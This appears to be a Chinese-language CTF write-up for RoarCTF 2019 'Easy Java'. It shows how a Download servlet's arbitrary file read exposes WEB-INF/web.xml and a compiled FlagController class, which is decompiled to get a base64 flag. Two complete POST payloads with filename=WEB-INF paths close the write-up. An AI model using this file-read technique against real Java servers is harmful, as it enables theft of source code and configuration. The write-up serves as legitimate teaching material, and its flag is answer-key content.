


# RoarCTF 2019

## Easy Java

> *2021/07/16*

### 题目

题目很明显`Java`写的，一进来是一个登录页面



先点进去`help`，发现一个很典型的**Java文件下载**



> WEB-INF主要包含一下文件或目录   
>
> - `/WEB-INF/web.xml`：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则   
> - `/WEB-INF/classes/`：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中   
> - `/WEB-INF/lib/`：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件   /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。   
> - `/WEB-INF/database.properties`：数据库配置文件 
>
> **漏洞检测以及利用方法：通过找到`web.xml`文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码**

先试试`WEB-INF`，但是`GET请求`怎么都不行，换成`POST请求`才可以，打开文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了`flag`所在的包，继续打开`classes`，用**jadx**反编译`class`文件，base64解码即可得到`flag`

```java
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name = "FlagController")
public class FlagController extends HttpServlet {
  String flag = "ZmxhZ3s4MTkzYWRlYy1jNzQ3LTQwODktODhlMS04NTA5MmMyNTRlZTN9Cg==";
  
  protected void doGet(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException {
    PrintWriter printWriter = paramHttpServletResponse.getWriter();
    printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
  }
}
```

### payload

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fweb.xml
```

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fclasses%2Fcom%2Fwm%2Fctf%2FFlagController.class
```